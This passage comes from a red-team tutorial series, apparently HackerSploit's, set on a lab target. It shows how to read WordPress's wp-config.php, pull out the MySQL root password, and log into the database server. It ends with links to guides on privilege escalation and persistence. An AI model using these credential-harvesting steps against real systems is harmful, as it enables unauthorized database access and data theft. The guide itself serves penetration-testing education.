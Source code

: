         cd /var/www/html/wordpress

1.  Display the contents of the `wp-config.php` file:

        cat wp-config.php

1.  The relevant MySQL settings and credentials are shown in the output:

    {{< output >}}
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');
{{< /output >}}

    The database username is `root`, and the password is `R@v3nSecurity`. With root access to the MySQL server, you are able to view any database and perform any action on those databases.

1.  Connect to the MySQL server using the `root` user:

        mysql -u root -p

1.  The command prompts you to enter the password for the MySQL root user. Enter the password obtained from the `wp-config.php` file (`R@v3nSecurity`).

1.  A MySQL server prompt appears:

    {{< output >}}
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 121
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
{{< /output >}}

## Next Steps

We have now been able to obtain an initial foothold on the target system and take control of the MySQL database server. The next steps for targeting Linux systems include:

- [Elevating your privileges on the target system](/docs/guides/linux-red-team-privilege-escalation-techniques/)

- [Establishing persistence to maintain access](/docs/guides/linux-red-team-persistence-techniques/)

Visit the [HackerSploit Red Team parent page](/docs/guides/hackersploit-red-team-series/) to navigate to other parts of this guide series.